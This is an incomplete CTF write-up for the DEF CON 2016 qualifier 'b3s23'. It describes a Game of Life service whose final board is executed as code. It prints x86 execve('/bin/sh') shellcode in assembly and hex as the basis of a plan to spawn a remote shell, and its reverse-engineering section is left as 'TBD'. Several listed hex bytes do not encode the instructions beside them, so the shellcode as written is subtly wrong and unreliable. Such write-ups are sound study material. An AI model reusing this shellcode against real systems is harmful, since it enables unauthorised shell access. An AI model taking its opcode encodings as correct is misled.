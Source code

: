# DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I started with the following shellcode,

```assembly
xor    %eax,%eax        "\x31\xC0"
push   %eax             "\x50"
push   $0x68732f2f      "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      "\x68\x2F\x62\x69\x6E"
mov    %esp,%ebx        "\x89\xDC"
push   %eax             "\x50"
push   %ebx             "\x53"
mov    %esp,%ecx        "\x89\xCC"
mov    $0xb,%al         "\xA2\x00\x00\x00\x00"
int    $0x80            "\xCD\x80"     
```

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain at the end of the 15 iterations. At 22 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. The issue with wrapping is that it complicates the intial Game of Life construction and most likely would result in destabilizing it. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 
